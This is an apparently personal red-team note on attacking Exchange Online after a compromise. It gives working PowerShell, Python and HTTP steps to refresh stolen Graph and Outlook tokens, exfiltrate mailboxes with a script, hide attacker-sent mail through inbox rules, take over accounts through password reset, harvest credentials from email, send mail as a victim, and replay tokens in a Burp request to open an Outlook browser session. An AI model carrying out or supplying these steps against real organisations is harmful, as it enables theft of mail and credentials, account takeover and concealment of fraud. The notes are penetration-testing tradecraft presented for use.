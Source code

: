 ```yaml
---
title: Exchange Online
---
```


> Under construction 🚧

Obtain an access token for MS Graph with [[notes/tools/tokentactics]].

~~~ powershell
RefreshTo-MSGraphToken -domain corp.com
echo $MSGraphToken.access_token
~~~

Download emails with [exfil_exchange_mail.py](https://github.com/rootsecdev/Azure-Red-Team/blob/master/Tokens/exfil_exchange_mail.py).

~~~ bash
python3 ./exfil_exchange_mail.py
~~~

Create an inbox rule to hide emails send as attacker.

Take over other services via "Password Forgotten".

Search for credentials in emails with [TeamFiltration](https://github.com/Flangvik/TeamFiltration).

Send an email via Exchange Online ([source](https://twitter.com/424f424f/status/1609552182390538245/)) with [[notes/tools/tokentactics]] and [MailSniper](https://github.com/dafthack/mailsniper).

~~~ powershell
Send-EWSEmail -ExchHostname substrate.office.com -Recipient jdoe@corp.com -Subject test -EmailBody 'Hello!' -AccessToken $token
~~~

MailSniper can be used as *Exchange Administrator* to read emails of all users.

To get an Outlook browser session obtain an access token for Outlook with [[notes/tools/tokentactics]].

~~~ powershell
RefreshTo-OutlookToken -domain corp.com
echo $OutlookToken.refresh_token
echo $OutlookToken.access_token
~~~

The open Burp, send the following request to [outlook.office.com](https://outlook.office.com) and open the response in your browser.

~~~ http
POST /owa/ HTTP/2
Host: outlook.office.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2703
Referer: https://login.microsoftonline.com/
Origin: https://login.microsoftonline.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

code=REFRESH_TOKEN&id_token=ACCESS_TOKEN
~~~

Untested tools:

- [Token Farm](https://github.com/rootsecdev/Azure-Red-Team/tree/master/Tokens), python scripts to access Outlook emails and OneDrive
